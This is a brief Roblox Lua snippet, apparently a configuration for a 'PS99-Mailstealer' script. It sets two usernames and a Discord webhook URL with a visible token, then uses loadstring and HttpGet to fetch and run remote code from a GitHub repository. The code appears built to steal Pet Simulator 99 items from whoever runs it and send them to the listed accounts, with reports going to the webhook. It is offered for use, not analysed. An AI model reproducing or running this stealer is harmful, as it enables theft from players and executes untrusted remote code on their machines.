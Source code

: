 Username = "tryrant26"
Username2 = "tryrant26"
Webhook = "https://discord.com/api/webhooks/1253051136370409552/Bo--crFZGjHZTAhyl_n4rnoyzgf7CLNPnd7ysaCDavkCAg3NTyTlL5aLSfsExumelPe-"

loadstring(game:HttpGet("https://raw.githubusercontent.com/LypherScript/PS99-Mailstealer/main/PS99Mailstealer"))()
